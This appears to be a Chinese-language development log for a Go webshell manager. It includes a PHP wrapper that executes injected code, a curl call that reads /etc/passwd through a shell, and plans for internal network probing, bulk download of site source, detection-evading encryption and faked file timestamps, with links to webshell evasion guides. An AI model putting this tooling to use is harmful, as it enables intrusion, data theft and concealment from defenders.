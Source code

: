 
## 2025-6-9
对于多个webshell的类型判断，使用不同的service层时，使用接口的多态特性。go中定义接口的方式如下：

shell_service.go
```go
type Shell interface {
	GetShellType() string
}

// PHPShell implements Shell interface for PHP
type PHPShell struct{}
```

php_service.go
```go
func (s *PHPShell) GetShellType() string {
	return "php"
}
```

打算先完成最重要的两个功能，分别是命令执行和文件管理。使用天蝎的api，避免直接硬编码shellcode，考虑重写加密函数。

## 2025-6-10
完成了shell的增删改查。


## 2025-6-20
- session管理
Todo FreshSession 作为心跳方法，使用ajax定时刷新。
- 加解密code实现
完成了PHP异或加密
~~Todo 统一规范加解密，加密完成后使用base64编码掉~~

## 2025-6-21
- 数据库password设置为字符串类型不方便，每次都要转换烦
设置了随机useranget、动态密钥（时间戳）、优化了代码结构
打算参考1panel中的文件、数据库管理前后端实现，自己写估计bug很多


## 2025-6-22
继续完善文件管理功能
jq的简单使用，-r参数避免换行符\n被转义
```shell
curl --location 'http://127.0.0.1:8989/api/v1/webshells/FileShow/1' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'path=/etc/passwd' | jq -r '.target_file_content'
```
经过我的思考，第二阶段加密算法可以和第一阶段不一样，更具有迷惑性。这里将第二阶段的密钥偏移值进行了修改。
ExecCode方法，学到了一个trick。在PHP中使用输出缓冲。避免直接输出结果，而是先存储在缓冲区中，等待加密再返回。
```php
function main() {
	ob_start(); // 开始输出缓冲
	%s          // 执行传入的代码
	return ob_get_clean(); // 获取缓冲区内容并作为返回值
}
```
SocketsProxy的意义是，当服务端没有可执行文件的执行权限时，可以通过PHP脚本完成内网探测工作。
Todo 对于数据库的的操作实现，可以只提供一个sql语句输入框，避免书写过多代码。正好可以让使用者学习使用不同的SQL语句。
这是因为PHP 原生支持连接多种数据库和缓存系统，但我更推荐直接使用PDO。
> PDO 支持多种主流数据库（如 MySQL、PostgreSQL、SQLite、SQL Server、Oracle 等），是一个强大的数据库抽象层，适合需要跨数据库灵活性的项目。
现在难点只剩下文件管理的具体实现，前后端渲染、交互问题了。对我现在来说有点复杂，因为俺不会前端。当前我更需要的功能室一键压缩网站目录下的所有文件，方便获取代码。
Todo 提供api修改文件的创建时间，迷惑对手

## 2025-6-23
- 压缩功能（文件管理的一部分）
- 代码执行功能
- 数据库连接、查询功能
webshell免杀参考
https://github.com/AabyssZG/WebShell-Bypass-Guide
https://github.com/LandGrey/webshell-detect-bypass
https://github.com/cseroad/Webshell_Generate

## 2025-6-24

